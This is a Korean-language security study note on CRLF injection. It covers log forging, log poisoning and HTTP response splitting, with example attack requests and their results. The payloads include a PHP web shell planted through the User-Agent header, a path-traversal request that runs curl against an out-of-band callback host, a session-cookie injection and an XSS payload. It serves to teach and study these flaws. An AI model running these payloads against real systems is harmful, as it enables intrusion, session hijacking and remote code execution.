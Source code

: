 # CRLF Injection


## CRLF 란?
- 타자기 시절부터 줄 바꿈(New Line)을 사용하던 방식
- CR + LF가 합쳐진 용어
    - CR(Carriage Return)
        - 현재 라인에서 커서 위치를 줄 올림 없이 가장 앞으로 옮기는 동작
        - ASCII Code: `ASCII 13` 
        - URL Encode: `%0D`
        - Char: `\r`
    - LF(Line Feed)
        - 커서의 위치는 그대로 두고 종이를 한 라인 위로 올리는 동작
        - ASCII Code: `ASCII 10`
        - URL Encode: `%0A`
        - Char: `\n`


## CRLF Injection이란?
- Carrage Return Line Feed Injection의 약자
- 개행 문자를 의미하는 CR과 LF를 이용하여 공격자가 의도한 동작을 수행시키는 공격 기법


### 1) Log Injection
- 사용자 입력이 로그에 포함되는 경우 공격자가 이를 이용해 로그 항목을 위조하거나 악성 내용을 로그에 삽입할 수 있다.


#### [1] Log Forging
- 사용자 입력이 Log에 반영되는 부분이 있다면 CRLF 문자를 이용하여 새로운 Log를 작성할 수 있다.
- 이러한 Log는 침해 사고 분석을 어렵게 할 수 있고, Log의 무결성을 해쳐서 Log의 신뢰도를 떨어뜨리고, Log가 가지는 부인 방지로서의 목적을 상실하게 할 수 있다.
- 정상 요청과 로그
    ```
    GET /?query=aaaa
    ```
    ```
    ['A' User][error][input: aaaa] invalid data
    ```
- 공격 요청과 로그
    ```
    GET /?query=aaaa]%20invalid%20data%0d%0a['B' User][token]%20re-generate%20token
    ```
    ```
    ['A' User][error][input: aaaa] invalid data
    ['B' User][token] re-generate token
    ```


#### [2] Log Poisoning
- Log 데이터를 통제할 수 있고, 서비스 내 LFI, Path Traversal 취약점이 있는 경우 Log 파일의 경로를 유추하여 RCE 등 위험도를 높일 수 있다.  

- First Request (Log Poisoning)
    ```
    GET / HTTP/1.1
    User-Agent: aa<?php echo system($_GET['cmd']); ?>bb
    ```
- Second Request (Path Traversal)
    - 요청 내 `curl` 명령어가 실행
    ```
    GET /file.php?path=/var/log/apache2/access.log?cmd=curl%20<OAST>/rce HTTP/1.1
    ```


### 2) HTTP 응답 분할(HTTP Response Splitting)
- *CWE-113*
- 응답(Response)에 줄 바꿈 문자(CR/LF)를 삽입(Injection)해 하나의 HTTP 응답을 분리(Splitting)하여 여러 개의 HTTP 응답을 만들어 내어 캐시 서버(Cache Server)나 프록시 서버(Proxy Server)에 변조된 컨텐츠를 전송하여 조작할 수 있는 기법


#### [1] Add Cookie
- CRLF가 삽입된 구문이 Header에 반영되는 경우 임의로 Cookie를 삽입할 수 있다.
    ```
    GET /redirect?location=ws://%0d%0aSet-Cookie: session=attackersessions;
    ```
    ```
    HTTP/1.1 200 OK
    Location: ws://
    Set-Cookie: session=attackersessions;
    ```


#### [2] XSS
- CRLF가 삽입된 구문이 Header에 반영되는 경우 `\r\n\r\n`과 같이 두 번 개행하여 Response Body 영역에 임의로 HTML 코드를 추가하여 XSS와 동일하게 사용자 브라우저에서 Script를 실행할 수 있다.
    ```
    GET /redirect?location=ws://%0d%0a%0d%0a<svg/onload=alert(45)>
    ```
    ```
    HTTP/1.1 200 OK
    Location: ws://

    <svg/onload=alert(45)>
    ```
  

# 참고문헌
- [Log Injection](https://www.hahwul.com/cullinan/log-injection/)
- [CRLF Injection](https://www.hahwul.com/cullinan/crlf-injection/)
- [CR-LF INJECTION](https://zzzmilky.tistory.com/entry/%EC%9B%B9%ED%95%B4%ED%82%B9-CR-LF-INJECTION)